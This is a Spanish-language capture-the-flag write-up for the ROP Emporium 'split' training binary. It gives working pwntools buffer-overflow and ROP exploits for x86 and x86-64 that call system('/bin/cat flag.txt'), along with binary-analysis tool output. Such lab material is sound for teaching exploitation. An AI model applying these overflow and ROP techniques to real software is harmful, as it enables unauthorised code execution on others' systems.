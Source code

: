 # Split

![2025-04-24-204900_1160x313_scrot](https://github.com/user-attachments/assets/fac22587-b1e4-4358-868c-aa76ad86faa5)

## Indice
- [x86](x86)
- [x86-64](#x86_64)
- [Notas](#Notas)

# x86

## Analisis
```
checksec --file=split32
[*] '/home/kalcast/Descargas/RopEmporium/split32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Sin canario ni PIE, y sabemos que en esta arquitectura el buffer overflow ocurre con un offset de 44 bytes, en la descripcion nos dicen que debemos llamar a la funcion `system` y que la cadena `/bin/cat flag.txt` esta en algun lugar del programa.

Con rabin2 podemos encontrar la llamada a system dentro de usefulFunction:
```
rabin2 -s split32 |grep FUNC
28  0x00000490 0x08048490 LOCAL  FUNC   0        deregister_tm_clones
29  0x000004d0 0x080484d0 LOCAL  FUNC   0        register_tm_clones
30  0x00000510 0x08048510 LOCAL  FUNC   0        __do_global_dtors_aux
33  0x00000540 0x08048540 LOCAL  FUNC   0        frame_dummy
36  0x000005ad 0x080485ad LOCAL  FUNC   95       pwnme
37  0x0000060c 0x0804860c LOCAL  FUNC   25       usefulFunction
46  0x00000690 0x08048690 GLOBAL FUNC   2        __libc_csu_fini
48  0x00000480 0x08048480 GLOBAL FUNC   4        __x86.get_pc_thunk.bx
52  0x00000694 0x08048694 GLOBAL FUNC   0        _fini
61  0x00000630 0x08048630 GLOBAL FUNC   93       __libc_csu_init
65  0x00000470 0x08048470 GLOBAL FUNC   2        _dl_relocate_static_pie
66  0x00000430 0x08048430 GLOBAL FUNC   0        _start
70  0x00000546 0x08048546 GLOBAL FUNC   103      main
72  0x00000374 0x08048374 GLOBAL FUNC   0        _init
1   0x000003b0 0x080483b0 GLOBAL FUNC   16       imp.read
2   0x000003c0 0x080483c0 GLOBAL FUNC   16       imp.printf
3   0x000003d0 0x080483d0 GLOBAL FUNC   16       imp.puts
4   0x000003e0 0x080483e0 GLOBAL FUNC   16       imp.system
6   0x000003f0 0x080483f0 GLOBAL FUNC   16       imp.__libc_start_main
7   0x00000400 0x08048400 GLOBAL FUNC   16       imp.setvbuf
8   0x00000410 0x08048410 GLOBAL FUNC   16       imp.memset
```

```
r2 -A -c "pdf @ sym.usefulFunction" -q split32 2>/dev/null
/ 25: sym.usefulFunction ();
|           0x0804860c      55             push ebp
|           0x0804860d      89e5           mov ebp, esp
|           0x0804860f      83ec08         sub esp, 8
|           0x08048612      83ec0c         sub esp, 0xc
|           0x08048615      680e870408     push str._bin_ls            ; 0x804870e ; "/bin/ls"
|           0x0804861a      e8c1fdffff     call sym.imp.system         ; int system(const char *string)
|           0x0804861f      83c410         add esp, 0x10
|           0x08048622      90             nop
|           0x08048623      c9             leave
\           0x08048624      c3             ret
```

Y la cadena que buscamos:

```
rabin2 -z split32
[Strings]
nth paddr      vaddr      len size section type  string
-------------------------------------------------------
0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
6   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```

## Explotacion

Necesitamos llamar a system("/bin/cat flag.txt") dentro de sym.usefulFunction

Ahora bien en x86 el primer parametro que se le pasa a una funcion es el valor en la cima de la pila, lugar donde apunta esp

Nuestra carga util entonces sera `offset + direccion_call_system + direccion_comando_cat`

Exploit:
``` python
from pwn import *

elf = context.binary = ELF("./split32")
io = process("./split32")

system_call = 0x0804861a
command_string = 0x0804a030

payload = flat (
         cyclic(44),
         p32(system_call),        # system("/bin/cat flag.txt")
         p32(command_string)      # "/bin/cat flag.txt"
        )

io.recv()
io.sendline(payload)
io.success(io.recvall().decode())
```

# x86_64

## Analisis

En teoria es lo mismo que en x86, pero las direcciones de la funcion y la cadena cambian.

## Explotacion

La diferencia radica aqui en que el primer parametro de una funcion en x86_64 es el registro o a donde apunta el registro RDI, por lo que necesitamos almacenar "/bin/cat flag.txt" en este registro.

Necesitamos un gadget, un pequeño trozo de codigo al cual podamos saltar, cambiar el valor del registro y volver

Podemos usar el comando /R [registro] en radare para encontrar gadgets, o la herramienta ROPgadget, a gusto del que quiera:
```
ROPgadget --binary split|grep rdi
0x0000000000400288 : loope 0x40025a ; sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
0x00000000004007c3 : pop rdi ; ret  # Aqui esta!
0x000000000040028a : sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
```

Con este gadget podemos sobreescribir rdi:
```python
from pwn import *

elf = context.binary = ELF("./spl1t")
io = process("./spl1t")

payload = flat (
         cyclic(40),
         p64(0x004007c3),           # pop rdi; ret
         p64(0x00601060),           # "/bin/cat flag.txt"
         p64(0x0040074b),           # system("/bin/cat flag.txt")
        )

io.recv()
io.sendline(payload)
io.success(io.recvuntil(b"}").decode())
```

# Notas
